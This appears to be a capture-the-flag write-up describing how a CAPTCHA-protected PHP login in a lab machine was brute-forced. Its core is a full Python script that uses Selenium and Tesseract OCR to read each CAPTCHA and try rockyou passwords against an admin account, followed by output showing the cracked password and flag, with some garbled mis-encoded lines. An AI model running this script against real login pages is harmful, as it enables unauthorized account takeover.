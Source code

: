 Description
The web application has a login form with three fields: username, password, and CAPTCHA. To prevent automated brute-forcing, a CAPTCHA changes every time the page is loaded.
This project solves the CAPTCHA bypass by automating Firefox browser via Selenium and using OCR (Tesseract library) to recognize the CAPTCHA text. The script loads the page, extracts the CAPTCHA image, processes it to improve OCR accuracy, inputs the credentials, and attempts to login automatically.

My IP Addresses
Attacker machine IP (my IP): 10.10.82.126

Target machine IP: 10.10.104.119

What I Did
Analyzed the web application, found a login form with CAPTCHA on port 80 of the target machine.

Enumerated the web directories using gobuster, confirmed PHP backend.

Prepared a wordlist with the first 100 passwords from rockyou.txt.

Developed a Python script using Selenium and Firefox to automate login and bypass CAPTCHA.

Used Tesseract OCR for CAPTCHA text recognition.

Applied image processing to the CAPTCHA to enhance recognition accuracy.

Ran the script — successfully brute-forced the password and retrieved the flag.

Code Snippet (Key Parts)

from selenium.webdriver.common.by import By
from selenium import webdriver
from selenium.webdriver.firefox.options import Options
from selenium.webdriver.firefox.service import Service
import time
from PIL import Image, ImageEnhance, ImageFilter
import io
import pytesseract

options = Options()
options.add_argument('--headless')  # Run in headless mode
options.set_preference("general.useragent.override", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0")

service = Service(executable_path='/usr/bin/geckodriver')
browser = webdriver.Firefox(service=service, options=options)

ip = 'http://10.10.104.119/'
login_url = f'{ip}index.php'
dashboard_url = 'dashboard.php'
username = "admin"

with open("wordlist.txt", 'r', encoding='utf-8') as file:
    passwords = [line.strip() for line in file]

for password in passwords:
    print(f"[*] Trying password: {password}")
    while True:
        browser.get(login_url)
        time.sleep(1)

        captcha_img = browser.find_element(By.TAG_NAME, "img")
        captcha_png = captcha_img.screenshot_as_png

        image = Image.open(io.BytesIO(captcha_png)).convert("L")
        image = image.resize((image.width * 2, image.height * 2), Image.LANCZOS)
        image = image.filter(ImageFilter.SHARPEN)
        image = ImageEnhance.Contrast(image).enhance(2.0)
        image = image.point(lambda x: 0 if x < 140 else 255, '1')

        captcha_text = pytesseract.image_to_string(
            image,
            config='--psm 7 -c tessedit_char_whitelist=ABCDEFGHIJKLMNOPQRSTUVWXYZ23456789'
        ).strip().replace(" ", "").replace("\n", "").upper()

        if not captcha_text.isalnum() or len(captcha_text) != 5:
            print(f"[!] OCR failed: '{captcha_text}', retrying...")
            continue

        browser.find_element(By.ID, "username").send_keys(username)
        browser.find_element(By.ID, "password").send_keys(password)
        browser.find_element(By.ID, "captcha_input").send_keys(captcha_text)
        browser.find_element(By.ID, "login-btn").click()

        time.sleep(1)

        if dashboard_url in browser.current_url:
            print(f"[+] Login successful with password: {password}")
            try:
                flag = browser.find_element(By.TAG_NAME, "p").text
                print(f"[+] Flag: {flag}")
            except:
                print("[!] Flag not found.")
            browser.quit()
            exit()
        else:
            if "error" in browser.current_url:
                print(f"[-] Incorrect password: {password}")
                break
            else:
                print("[-] CAPTCHA failed, retrying...")
                continue

browser.quit()

"[-] 0@>;L =525@5=: hottie
[*] @>1C5< ?0@>;L: tinkerbell
[+] #!%! 0@>;L: tinkerbell
[+] $;03: Here is  flag: THM{8938aed9fbf43bddb7c0a98f292dca}
root@ip-10-10-82-126:~# 
Summary
Automated successful password brute-force with CAPTCHA bypass."

Retrieved the flag from the target machine.

Used Firefox and Selenium to control the browser and bypass protection.

Used Tesseract OCR with image preprocessing for CAPTCHA recognition.
